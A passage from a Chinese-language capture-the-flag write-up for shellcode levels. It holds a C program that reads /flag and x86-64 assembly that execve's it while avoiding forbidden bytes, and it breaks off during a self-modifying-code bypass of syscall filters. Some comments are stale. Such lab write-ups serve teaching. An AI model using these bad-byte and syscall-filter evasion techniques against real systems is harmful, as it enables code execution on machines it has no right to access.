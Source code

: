 openflag

```c
#include<stdio.h>

int main(){
    char* filename = "/flag";
    int fd;
    fd = open(filename,0);
    char buffer[100];
    read(fd,buffer, 100);
    puts(buffer);
}
```

## level4

第4关，shellcode中不然包含0x48，然后我就替换了一下level3中的汇编。把xor指令换成mov指令了。

还是通过execve运行openflag程序。

```asm
BITS 64

section .text
global _start

_start:
    jmp short call_shellcode

get_address:
    pop rdi                     ; 将字符串地址弹出到RDI中
    mov rsi, 0                  ; 清空RSI
    mov rdx, 0                  ; 清空RDX
    mov al, 0x3b                ; syscall编号execve
    syscall                     ; 执行系统调用

call_shellcode:
    call get_address            ; 调用get_address来获取字符串地址
    db '/home/hacker/Shellcode/level3/openflag',0x0             ; 存储字符串/bin/sh，X是占位符，避免NULL字节

```



## level5

第五关shellcode中，不让包含syscall--0f05、sysenter--0f34、int--80cd这些字节。
但是存储代码的栈空间是可以修改，可以读写、可以运行的。所以我们的思路，可以通过在汇编运行运行的期间，动态修改后续需要执行的指令。

```asm


BITS 64

section .data
    filename db '/home/hacker/Shellcode/level3/openflag',0x0             ; 存储字符串/bin/sh，X是占位符，避免NULL字节

section .text
    global _start

_start:
    jmp short call_code

code:
    pop rsi                      ; 将下一条指令地址保存到 rsi 寄存器--times 0x10 nop的首地址
```